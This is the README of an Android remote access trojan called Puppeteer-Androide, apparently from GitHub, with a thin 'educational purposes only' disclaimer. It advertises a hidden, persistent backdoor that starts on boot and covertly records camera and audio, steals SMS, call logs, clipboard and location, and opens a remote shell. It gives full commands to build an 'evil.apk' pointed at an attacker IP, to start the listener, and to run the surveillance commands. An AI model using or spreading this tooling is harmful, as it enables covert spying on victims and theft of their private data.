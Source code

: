 **Disclaimer** : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
# Puppeteer-Androide 

![Puppeteer-Androide Logo](./logo.png)

[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![GitHub followers](https://img.shields.io/github/followers/BenzoXdev?label=Follow&style=social)](https://github.com/BenzoXdev)

Puppeteer-Androide is a tool designed to give the control of the android system remotely and retrieve informations from it. Puppeteer-Androide is a client/server application developed in Java Android for the client side and the Server is in Python.

##### Puppeteer-Androide will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> Puppeteer-Androide also works on Android 10 (Q) but some of the interpreter command will be unstable. 

## Features of Puppeteer-Androide 
* Full persistent backdoor
* ~~Fully undetectable by any antivirus scanner [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)~~
* Invisible icon on install
* Light weight apk which runs 24*7 in background
* App starts automatically on boot up 
* Can record audio, video, take picture from both camera
* Browse call logs and SMS logs
* Get current location, sim card details ,ip, mac address of the device


## Prerequisites
Puppeteer-Androide requires Python3 and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/BenzoXdev/Puppeteer-Androide.git
cd Puppeteer-Androide
pip install -r requirements.txt
```
#### Note: 
While cloning the repository using Git bash on Windows, you may get the following error:
> error: unable to create file \<filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename. 

You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 Puppeteer-Androide.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 Puppeteer-Androide.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 Puppeteer-Androide.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 Puppeteer-Androide.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 Puppeteer-Androide.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 Puppeteer-Androide.py --shell -i 0.0.0.0 -p 8000```

## TODO
* ~~Ngrok support~~
* Set up multi client
* Add screenshot command


## License
Puppeteer-Androide is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.



